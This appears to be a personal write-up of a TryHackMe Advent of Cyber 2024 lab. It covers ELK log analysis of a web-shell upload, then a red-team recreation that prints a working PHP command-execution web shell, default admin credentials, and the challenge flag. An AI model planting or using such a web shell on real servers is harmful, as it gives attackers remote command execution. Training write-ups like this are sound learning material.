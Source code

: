 # 🎄 TryHackMe Advent of Cyber 2024 – Day 3: Log Analysis


## Challenge Overview 🎅

Day 3 gave me the chance to wear both blue team and red team hats. The Frosty Pines Resort SOC flagged some suspicious activity on their web server. My job was to figure out how the web shell got there and who accessed it, then take on the role of an attacker to exploit the same vulnerability and grab the hidden flag.

## Objectives 🎯

1. Investigate logs in ELK to figure out how the attack happened.
2. Identify the IP that accessed the web shell.
3. Recreate the attack by exploiting a file upload vulnerability to retrieve the flag.

## Step 1: Investigating the Logs (Blue Team)

### Breaking Down the Process

1. **Access Kibana:**  
   Opened `http://MACHINE_IP:5601` using the browser on the AttackBox. 
2. **Select the Collection:**  
   Chose the **frostypines-resorts** index from the Discover tab.
3. **Adjust the Timeframe:**  
   Set the range to **October 1, 2024, 00:00 – October 3, 2024, 20:00**.
4. **Add Relevant Fields:**  
   Added `requests` and `clientip` fields to focus on the activity we care about.
5. **Narrow the Search:**  
   Searched for `"shell.php"` in the `requests` field to find related logs.

### What I Found
- **Where was the web shell uploaded to?**  
  **Answer:** `/media/images/rooms/shell.php`
- **What IP address accessed the web shell?**  
  **Answer:** `10.11.83.34`

## Step 2: Exploiting the RCE Vulnerability (Red Team)

### Steps to Pull Off the Exploit

1. **Edit the Hosts File:**  
   Added the following to `/etc/hosts`:  
   ```
   MACHINE_IP frostypines.thm
   ```
   This let me access the website by name instead of IP.
2. **Log In to the Site:**  
   Went to `http://frostypines.thm` and logged in with:  
   - **Username:** admin@frostypines.thm  
   - **Password:** admin  
3. **Prepare the Web Shell:**  
   Saved the following PHP code as `shell.php`:
   ```
   <html>
   <body>
   <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
   <input type="text" name="command" autofocus id="command" size="50">
   <input type="submit" value="Execute">
   </form>
   <pre>
   <?php
       if(isset($_GET['command'])) 
       {
           system($_GET['command'] . ' 2>&1'); 
       }
   ?>
   </pre>
   </body>
   </html>
   ```
4. **Upload the Shell:**  
   Uploaded `shell.php` as the room image via the “Add Room” section.
5. **Locate the Web Shell:**  
   Verified it was uploaded to:  
   `http://frostypines.thm/media/images/rooms/shell.php`
6. **Retrieve the Flag:**  
   Accessed the shell and ran the following command:  
   ```
   cat flag.txt
   ```

### The Result
- **What is the contents of the flag.txt?**  
  **Answer:** `THM{Gl1tch_Was_H3r3}`

## Lessons Learned 🌟

### Blue Team Takeaways
- **Log Analysis Is Essential:** ELK made it easier to sift through logs, filter out noise, and pinpoint the attacker’s activity.
- **Adding Context Matters:** Including fields like `requests` and `clientip` helped narrow the search quickly.
- **Correlating Activity:** Connecting requests with specific IPs and actions made the investigation much more effective.

### Red Team Takeaways
- **Unrestricted File Uploads Are Risky:** Not validating uploads is a massive vulnerability that attackers can exploit for RCE.
- **Web Shells Are Simple but Powerful:** A small PHP script can give full control over a system, reinforcing the need for proper server security.
- **Credentials Are Key:** Using weak or default credentials like `admin/admin` is just inviting attackers in.

## Tools 🛠️

- **[Elastic SIEM](https://www.elastic.co/security/siem):** Used for log analysis to track down suspicious activity and access points.  
- **Text Editor:** Created the PHP web shell used in the exploit.  
- **Browser:** Accessed and navigated the Frosty Pines site during the red team portion of the challenge.

## Final Thoughts 🎁

This task showed the importance of seeing things from both perspectives: defending against and exploiting vulnerabilities. ELK made it easier to understand what happened from the logs, and recreating the attack demonstrated how simple mistakes, like not validating uploads, can have serious consequences. I’m excited to see what tomorrow’s challenge brings!

## Table of Contents

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE](day5.md)
- [Day 6: Sandboxes](day6.md)
- [More Days to Come!](#)

